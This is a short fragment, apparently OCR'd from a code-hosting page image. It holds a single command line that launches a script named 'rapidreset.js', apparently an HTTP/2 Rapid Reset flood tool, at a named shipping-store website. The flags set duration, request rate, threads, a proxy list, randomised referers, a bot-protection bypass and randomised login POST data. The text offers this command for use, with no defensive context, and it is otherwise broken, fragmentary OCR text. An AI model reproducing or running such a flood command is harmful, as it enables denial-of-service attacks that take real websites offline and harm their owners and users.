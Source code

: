 node rapidreset.js GET "https://jmtshipping.shop/" 120 23 90 proxy.txt --query 1 --cookie "uh=good" --delay 1 --bfm true --referer rand --postdata "user=f&pass=%RAND%" --debug --randrate --full
